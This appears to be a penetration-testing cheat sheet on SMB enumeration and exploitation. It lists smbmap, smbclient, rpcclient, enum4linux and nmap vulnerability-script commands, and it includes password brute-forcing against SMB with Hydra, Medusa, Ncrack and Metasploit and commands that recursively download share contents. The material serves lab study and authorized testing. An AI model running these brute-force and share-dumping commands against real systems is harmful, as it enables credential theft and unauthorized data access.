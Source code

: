 ## SMB Enumeration & Exploitation

### * SMB Enumeration
 #### Enumerate Hostname
    nmblookup -A [IP]
 #### List Shares
   ##### smbmap
    smbmap -H 192.168.10.1

    smbmap -R [shared dir] -H 192.168.10.1 = list contents

    smbmap -R [shared dir] -H 192.168.10.1 -A [filename.xml] -q = download content 

    smbmap -d active.htb -u [USER NAME] -p [PASSWORD] -H 192.168.10.1

    smbmap -d active.htb -u [USER NAME] -p [PASSWORD] -H 192.168.10.1 -R [Users] = download all contents in a filename Users

##### smbclient ( -L list shares, -N anonymous logon,)

    smbclient -L //192.168.10.1

    smbclient -L //10.10.10.100 -N

   download all contents in a filename folder[ ! password required]

    smbclient //192.168.10.1/filename

    > recurse ON
 
    > prompt OFF
 
    > mget *
    
 ##### Rpcclient
 
    rpcclient -U "" -N 192.168.1.102
    
    enumdomusers
    
 #### Check Null Sessions
 
 #### Overall Scan
 
    enum4linux -S 192.168.10.1



### Check for Vulnerabilities

    git clone https://github.com/peterpt/eternal_scanner.git && cd eternal_scanner
    
    nmap --script smb-vuln* -p 139,445 [ip]
    
    nmap -T4 -p445 --script smb-vuln-ms17-010 192.168.1.106
    
    use auxiliary/scanner/smb/smb_ms17_010

### Exploitation

 #### Hack SMB Login Password
    Hydra - hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb
    X-Hydra
    Medusa - medusa -h 192.168.1.118 -U /root/Desktop/user.txt -P /root/Desktop/pass.txt -M smbnt
    Ncrack - ncrack –U /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 –p 445
    Metasploit
      use auxiliary/scanner/smb/smb_login
      msf exploit (smb_login)>set rhosts 192.168.1.118
      msf exploit (smb_login)>set user_file /root/Desktop/user.txt
      msf exploit (smb_login)>set pass_file /root/Desktop/pass.txt
      msf exploit (smb_login)>set stop_on_success true
      msf exploit (smb_login)>exploit


### NBTSCAN

nbtscan -r 10.0.2.0/24


### NMAP
nmap --script smb-enum-shares -p 139,445 [ip]

nmap --script smb-enum-services -p 445 192.168.10.1 -d

nmap -p 445 -A 192.168.1.101

nmap -p 1-65535 -T4 -O -A -v 10.0.2.15


SMB Enumeration Techniques using Windows Tools:

1. NetBIOS Enumerator (nbtenum)

http://nbtenum.sourceforge.net/
------------------------------------------------------------

SMB\RPC Enumeration (139/445):

    enum4linux –a 10.0.0.1
    nbtscan x.x.x.x // Discover Windows / Samba servers on subnet, finds Windows MAC addresses, netbios name and discover client workgroup / domain
    py 192.168.XXX.XXX 500 50000 dict.txt
    python /usr/share/doc/python-impacket-doc/examples/samrdump.py 192.168.XXX.XXX
    nmap IPADDR --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse
    smbclient -L INSERTIPADDRESS
    smbclient //INSERTIPADDRESS/tmp
    smbclient INSERTIPADDRESS ipc$ -U john
    
_____________________________________________________________________________________________________________________________________
### Other links

https://medium.com/@arnavtripathy98/smb-enumeration-for-penetration-testing-e782a328bf1b

https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html

https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/

https://www.hackingarticles.in/5-ways-to-hack-smb-login-password/

https://www.hackingarticles.in/3-ways-scan-eternal-blue-vulnerability-remote-pc/

https://www.hackingarticles.in/smb-penetration-testing-port-445/

https://www.hackingarticles.in/netbios-and-smb-penetration-testing-on-windows/

